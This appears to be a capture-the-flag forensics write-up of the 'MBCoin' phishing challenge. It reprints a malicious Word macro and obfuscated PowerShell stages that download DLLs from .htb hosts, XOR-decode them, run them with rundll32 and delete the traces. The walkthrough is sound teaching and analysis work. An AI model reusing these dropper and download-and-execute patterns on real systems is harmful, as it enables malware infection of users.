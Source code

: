 +++
title = "MBCoin"
description = ""
weight = 2
+++

Challenge statement:\
`
We have been actively monitoring the most extensive spear-phishing campaign in recent history for the last two months. This campaign abuses the current crypto market crash to target disappointed crypto owners. A company's SOC team detected and provided us with a malicious email and some network traffic assessed to be associated with a user opening the document. Analyze the supplied files and figure out what happened.
`

This writeup is a story of collaboration, mistakes, and sleep deprivation. We had a great time.

What was the first mistake... probably starting the challenge around 1:15 AM. I had just sovled Lina's Invitation and should have stopped there but...

It started by downloading the challenge [files](forensics_mbcoin.zip), in which we can find a pcap and a doc. 

Opening the doc first, we can see a classic phishing document.\
![doc.png](doc.png)

Since we got a warning related to the macros when opening the file, it's worth to check out what there are.\
![macro.png](macro.png)

We can find the following macro wants to get executed when opening the file:
```vb
Rem Attribute VBA_ModuleType=VBAModule
Option VBASupport 1
Sub AutoOpen()
    Dim QQ1 As Object
    Set QQ1 = ActiveDocument.Shapes(1)
    Dim QQ2 As Object
    Set QQ2 = ActiveDocument.Shapes(2)
    RO = StrReverse("\ataDmargorP\:C")
    ROI = RO + StrReverse("sbv.nip")
    ii = StrReverse("")
    Ne = StrReverse("IZOIZIMIZI")
    WW = QQ1.AlternativeText + QQ2.AlternativeText
    MyFile = FreeFile
    Open ROI For Output As #MyFile
    Print #MyFile, WW
    Close #MyFile
    fun = Shell(StrReverse("sbv.nip\ataDmargorP\:C exe.tpircsc k/ dmc"), Chr(48))
    
    waitTill = Now() + TimeValue("00:00:05")
    While Now() < waitTill
    Wend
    MsgBox ("Unfortunately you are not eligable for free coin!")
    End
    
End Sub
```

This script tries to write the value of `QQ1.AlternativeText + QQ2.AlternativeText` in a file named pin.vbs, and then execute it. QQ1 and QQ2 are two shapes in the document.

Somehow, in my LibreOffice, I couldn't get the AlternativeText of the shapes.\
![Alternative.png](Alternative.png)

I asked someone on my team, and they were able to give me the two chunks of code:
```vb
Dim WAITPLZ, WS, k, kl
WAITPLZ = DateAdd(Chr(115), 4, Now())
Do Until (Now() > WAITPLZ)
Loop

LL1 = "$Nano='JOOEX'.replace('JOO','I');sal OY $Nano;$aa='(New-Ob'; $qq='ject Ne'; $ww='t.WebCli'; $ee='ent).Downl'; $rr='oadFile'; $bb='(''http://priyacareers.htb/u9hDQN9Yy7g/pt.html'',''C:\ProgramData\www1.dll'')';$FOOX =($aa,$qq,$ww,$ee,$rr,$bb,$cc -Join ''); OY $FOOX|OY;"
LL2 = "$Nanoz='JOOEX'.replace('JOO','I');sal OY $Nanoz;$aa='(New-Ob'; $qq='ject Ne'; $ww='t.WebCli'; $ee='ent).Downl'; $rr='oadFile'; $bb='(''https://perfectdemos.htb/Gv1iNAuMKZ/jv.html'',''C:\ProgramData\www2.dll'')';$FOOX =($aa,$qq,$ww,$ee,$rr,$bb,$cc -Join ''); OY $FOOX|OY;"
LL3 = "$Nanox='JOOEX'.replace('JOO','I');sal OY $Nanox;$aa='(New-Ob'; $qq='ject Ne'; $ww='t.WebCli'; $ee='ent).Downl'; $rr='oadFile'; $bb='(''http://bussiness-z.htb/ze8pCNTIkrIS/wp.html'',''C:\ProgramData\www3.dll'')';$FOOX =($aa,$qq,$ww,$ee,$rr,$bb,$cc -Join ''); OY $FOOX|OY;"
LL4 = "$Nanoc='JOOEX'.replace('JOO','I');sal OY $Nanoc;$aa='(New-Ob'; $qq='ject Ne'; $ww='t.WebCli'; $ee='ent).Downl'; $rr='oadFile'; $bb='(''http://cablingpoint.htb/ByH5NDoE3kQA/vm.html'',''C:\ProgramData\www4.dll'')';$FOOX =($aa,$qq,$ww,$ee,$rr,$bb,$cc -Join ''); OY $FOOX|OY;"
LL5 = "$Nanoc='JOOEX'.replace('JOO','I');sal OY $Nanoc;$aa='(New-Ob'; $qq='ject Ne'; $ww='t.WebCli'; $ee='ent).Downl'; $rr='oadFile'; $bb='(''https://bonus.corporatebusinessmachines.htb/1Y0qVNce/tz.html'',''C:\ProgramData\www5.dll'')';$FOOX =($aa,$qq,$ww,$ee,$rr,$bb,$cc -Join ''); OY $FOOX|OY;"


HH9="po"
HH8="wers"
HH7="h"
HH6="ell "
HH0= HH9+HH8+HH7+HH6
Set Ran = CreateObject("wscript.shell")
Ran.Run HH0+LL1,Chr(48)
Ran.Run HH0+LL2,Chr(48)
Ran.Run HH0+LL3,Chr(48)
Ran.Run HH0+LL4,Chr(48)
Ran.Run HH0+LL5,Chr(48)
Wscript.Sleep(5000)
```

```vb
MM1 = "$b = [System.IO.File]::ReadAllBytes((('C:GPH'+'pr'+'og'+'ra'+'mdataG'+'PHwww1.d'+'ll')  -CrePLacE'GPH',[Char]92)); $k = ('6i'+'I'+'gl'+'o'+'Mk5'+'iRYAw'+'7Z'+'TWed0Cr'+'juZ9wijyQDj'+'KO'+'9Ms0D8K0Z2H5MX6wyOKqFxl'+'Om1'+'X'+'pjmYfaQX'+'acA6'); $r = New-Object Byte[] $b.length; for($i=0; $i -lt $b.length; $i++){$r[$i] = $b[$i] -bxor $k[$i%$k.length]}; if ($r.length -gt 0) { [System.IO.File]::WriteAllBytes((('C:Y9Apro'+'gramdat'+'a'+'Y'+'9Awww'+'.d'+'ll').REpLace(([chAr]89+[chAr]57+[chAr]65),[sTriNg][chAr]92)), $r)}"
MM2 = "$b = [System.IO.File]::ReadAllBytes((('C:GPH'+'pr'+'og'+'ra'+'mdataG'+'PHwww2.d'+'ll')  -CrePLacE'GPH',[Char]92)); $k = ('6i'+'I'+'pc'+'o'+'Mk5'+'iRYAw'+'7Z'+'TWed0Cr'+'juZ9wijyQDj'+'Au'+'9Ms0D8K0Z2H5MX6wyOKqFxl'+'Om1'+'P'+'pjmYfaQX'+'acA6'); $r = New-Object Byte[] $b.length; for($i=0; $i -lt $b.length; $i++){$r[$i] = $b[$i] -bxor $k[$i%$k.length]};  if ($r.length -gt 0) {[System.IO.File]::WriteAllBytes((('C:Y9Apro'+'gramdat'+'a'+'Y'+'9Awww'+'.d'+'ll').REpLace(([chAr]89+[chAr]57+[chAr]65),[sTriNg][chAr]92)), $r)}"
MM3 = "$b = [System.IO.File]::ReadAllBytes((('C:GPH'+'pr'+'og'+'ra'+'mdataG'+'PHwww3.d'+'ll')  -CrePLacE'GPH',[Char]92)); $k = ('6i'+'I'+'WG'+'o'+'Mk5'+'iRYAw'+'7Z'+'TWed0Cr'+'juZ9wijyQDj'+'OL'+'9Ms0D8K0Z2H5MX6wyOKqFxl'+'Om1'+'s'+'pjmYfaQX'+'acA6'); $r = New-Object Byte[] $b.length; for($i=0; $i -lt $b.length; $i++){$r[$i] = $b[$i] -bxor $k[$i%$k.length]}; if ($r.length -gt 0) { [System.IO.File]::WriteAllBytes((('C:Y9Apro'+'gramdat'+'a'+'Y'+'9Awww'+'.d'+'ll').REpLace(([chAr]89+[chAr]57+[chAr]65),[sTriNg][chAr]92)), $r)}"
MM4 = "$b = [System.IO.File]::ReadAllBytes((('C:GPH'+'pr'+'og'+'ra'+'mdataG'+'PHwww4.d'+'ll')  -CrePLacE'GPH',[Char]92)); $k = ('6i'+'I'+'oN'+'o'+'Mk5'+'iRYAw'+'7Z'+'TWed0Cr'+'juZ9wijyQDj'+'Py'+'9Ms0D8K0Z2H5MX6wyOKqFxl'+'Om1'+'G'+'pjmYfaQX'+'acA6'); $r = New-Object Byte[] $b.length; for($i=0; $i -lt $b.length; $i++){$r[$i] = $b[$i] -bxor $k[$i%$k.length]}; if ($r.length -gt 0) { [System.IO.File]::WriteAllBytes((('C:Y9Apro'+'gramdat'+'a'+'Y'+'9Awww'+'.d'+'ll').REpLace(([chAr]89+[chAr]57+[chAr]65),[sTriNg][chAr]92)), $r)}"
MM5 = "$b = [System.IO.File]::ReadAllBytes((('C:GPH'+'pr'+'og'+'ra'+'mdataG'+'PHwww5.d'+'ll')  -CrePLacE'GPH',[Char]92)); $k = ('6i'+'I'+'IE'+'o'+'Mk5'+'iRYAw'+'7Z'+'TWed0Cr'+'juZ9wijyQDj'+'YL'+'9Ms0D8K0Z2H5MX6wyOKqFxl'+'Om1'+'a'+'pjmYfaQX'+'acA6'); $r = New-Object Byte[] $b.length; for($i=0; $i -lt $b.length; $i++){$r[$i] = $b[$i] -bxor $k[$i%$k.length]}; if ($r.length -gt 0) {[System.IO.File]::WriteAllBytes((('C:Y9Apro'+'gramdat'+'a'+'Y'+'9Awww'+'.d'+'ll').REpLace(([chAr]89+[chAr]57+[chAr]65),[sTriNg][chAr]92)), $r)}"

Set Ran = CreateObject("wscript.shell")
Ran.Run HH0+MM1,Chr(48)
WScript.Sleep(500)
Ran.Run HH0+MM2,Chr(48)
WScript.Sleep(500)
Ran.Run HH0+MM3,Chr(48)
WScript.Sleep(500)
Ran.Run HH0+MM4,Chr(48)
WScript.Sleep(500)
Ran.Run HH0+MM5,Chr(48)

WScript.Sleep(15000)
OK1 = "cmd /c rundll32.exe C:\ProgramData\www.dll,ldr"
OK2 = "cmd /c del C:\programdata\www*"
OK3 = "cmd /c del C:\programdata\pin*"
Ran.Run OK1, Chr(48)
WScript.Sleep(1000)
Run.Run OK2, Chr(48)
Run.Run OK3, Chr(48)
```

Globally, what those two scripts chunk are doing is
* download a file from a website
* save it as wwwN.dll (N from 1 to 5)
* for each of them, apply a transformation on the data and save the output as www.dll
* finally execute the exported function named ldr of that www.dll
* clean everything up

Since powershell is using `[System.IO.File]::WriteAllBytes` to create the www.dll file(s) one after the other, only the last one will be kept to be ran. 

We can't access those websites, but this is where the pcap comes into play. Looking at the pcap, we can download two of the files : pt.html and vm.html. Those can also be known as www1.dll and www4.dll respectively.\
![ptpcap.png](ptpcap.png)\
![vmpcap.png](vmpcap.png)

Somehow, the stream for vm.html was a bit weird, with the time of the packet #40 not being handled nicely. It didn't stop us from exporting the bytes as a file, and now, it's time to spin up a windows machine!

We can execute the following two lines individually. I modified the paths so they would point locally instead of into C:\programdata.
```ps1
$b = [System.IO.File]::ReadAllBytes((('www1.d'+'ll')  -CrePLacE'GPH',[Char]92)); $k = ('6i'+'I'+'gl'+'o'+'Mk5'+'iRYAw'+'7Z'+'TWed0Cr'+'juZ9wijyQDj'+'KO'+'9Ms0D8K0Z2H5MX6wyOKqFxl'+'Om1'+'X'+'pjmYfaQX'+'acA6'); $r = New-Object Byte[] $b.length; for($i=0; $i -lt $b.length; $i++){$r[$i] = $b[$i] -bxor $k[$i%$k.length]}; if ($r.length -gt 0) { [System.IO.File]::WriteAllBytes((('www'+'.d'+'ll').REpLace(([chAr]89+[chAr]57+[chAr]65),[sTriNg][chAr]92)), $r)}
#$b = [System.IO.File]::ReadAllBytes((('www2.d'+'ll')  -CrePLacE'GPH',[Char]92)); $k = ('6i'+'I'+'pc'+'o'+'Mk5'+'iRYAw'+'7Z'+'TWed0Cr'+'juZ9wijyQDj'+'Au'+'9Ms0D8K0Z2H5MX6wyOKqFxl'+'Om1'+'P'+'pjmYfaQX'+'acA6'); $r = New-Object Byte[] $b.length; for($i=0; $i -lt $b.length; $i++){$r[$i] = $b[$i] -bxor $k[$i%$k.length]};  if ($r.length -gt 0) {[System.IO.File]::WriteAllBytes((('www'+'.d'+'ll').REpLace(([chAr]89+[chAr]57+[chAr]65),[sTriNg][chAr]92)), $r)}
#$b = [System.IO.File]::ReadAllBytes((('www3.d'+'ll')  -CrePLacE'GPH',[Char]92)); $k = ('6i'+'I'+'WG'+'o'+'Mk5'+'iRYAw'+'7Z'+'TWed0Cr'+'juZ9wijyQDj'+'OL'+'9Ms0D8K0Z2H5MX6wyOKqFxl'+'Om1'+'s'+'pjmYfaQX'+'acA6'); $r = New-Object Byte[] $b.length; for($i=0; $i -lt $b.length; $i++){$r[$i] = $b[$i] -bxor $k[$i%$k.length]}; if ($r.length -gt 0) { [System.IO.File]::WriteAllBytes((('www'+'.d'+'ll').REpLace(([chAr]89+[chAr]57+[chAr]65),[sTriNg][chAr]92)), $r)}
$b = [System.IO.File]::ReadAllBytes((('www4.d'+'ll')  -CrePLacE'GPH',[Char]92)); $k = ('6i'+'I'+'oN'+'o'+'Mk5'+'iRYAw'+'7Z'+'TWed0Cr'+'juZ9wijyQDj'+'Py'+'9Ms0D8K0Z2H5MX6wyOKqFxl'+'Om1'+'G'+'pjmYfaQX'+'acA6'); $r = New-Object Byte[] $b.length; for($i=0; $i -lt $b.length; $i++){$r[$i] = $b[$i] -bxor $k[$i%$k.length]}; if ($r.length -gt 0) { [System.IO.File]::WriteAllBytes((('www'+'.d'+'ll').REpLace(([chAr]89+[chAr]57+[chAr]65),[sTriNg][chAr]92)), $r)}
#$b = [System.IO.File]::ReadAllBytes((('www5.d'+'ll')  -CrePLacE'GPH',[Char]92)); $k = ('6i'+'I'+'IE'+'o'+'Mk5'+'iRYAw'+'7Z'+'TWed0Cr'+'juZ9wijyQDj'+'YL'+'9Ms0D8K0Z2H5MX6wyOKqFxl'+'Om1'+'a'+'pjmYfaQX'+'acA6'); $r = New-Object Byte[] $b.length; for($i=0; $i -lt $b.length; $i++){$r[$i] = $b[$i] -bxor $k[$i%$k.length]}; if ($r.length -gt 0) {[System.IO.File]::WriteAllBytes((('www'+'.d'+'ll').REpLace(([chAr]89+[chAr]57+[chAr]65),[sTriNg][chAr]92)), $r)}
```

Once this is executed, we recover the two functional dlls. Or are they? Trying to run them with `rundll32.exe www.dll,ldr` gives me an error.\
![rundll.png](rundll.png)

Oh well, anyway, we're probably not meant to run them for real? I got another of my team member to run them, but they both just gave a messagebox asking if we were sure it was the one being ran on the system.

At that point, I figured that if it wasn't www1 nor www4 that we needed, I really had to find a way to get the last dll (www5) out of bonus.corporatebusinessmachines.htb. Unless something was missing from the challenge, the pcap really didn't have anything related to it.\
![noname.png](noname.png)

It took me a while to give up on finding www5.dll, but at some point, there is nothing much we can do with a simple failed dns query... I finally decided to go to sleep, which was a great idea.

Coming back to it in the morning, I took another look at the two dlls that I had, I started to check what kind of information there was. Using external tools, I could see timestamps, compiler information, sections, and codeview information : `Z:\hackthebox-submissions\202207-business-ctf-mbcoin\mbcoin\mbcoin\x64\Release\mbcoin.pdb`.

The information looks pretty much the same for both. A bit desperate because reversing isn't my strong suit, I tried to look at the first one (pt/www1) with hexdump -C. I know, I know, that's not reversing, and what hopes could I have to get anything out of it? At least I could then see the messagebox related information that one of my team member was able to get when running the dll.\
![Oops.png](Oops.png)

I did the same thing with the other dll (vm/www4), and.. I think my team member did a mistake when running both dlls, since in his case, they both gave the Oops message, but that second one is definitely different. Trying to finalize a challenge at 2AM may not be the best idea...\
![Congrats.png](Congrats.png)

After telling my team member, he tried again, and voilà.... :D\
![congrats2.png](congrats2.png)